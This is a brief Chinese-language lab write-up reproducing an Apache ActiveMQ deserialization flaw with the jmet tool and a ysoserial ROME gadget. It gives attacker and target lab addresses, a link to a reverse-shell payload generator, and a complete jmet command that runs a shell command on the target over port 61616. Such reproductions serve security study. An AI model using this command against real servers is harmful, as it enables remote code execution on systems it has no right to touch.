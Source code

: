 首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。



revershell

[Runtime.exec Payload Generater | AresX's Blog](https://ares-x.com/tools/runtime-exec)



## 漏洞复现

```
攻击机：192.168.1.21
靶机：192.168.1.15
```

访问192.168.1.15:8161

![image-20250408181232269](./assets/image-20250408181232269.png)

正常访问





```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 192.168.1.15 61616
```

![image-20250408183129709](./assets/image-20250408183129709.png)
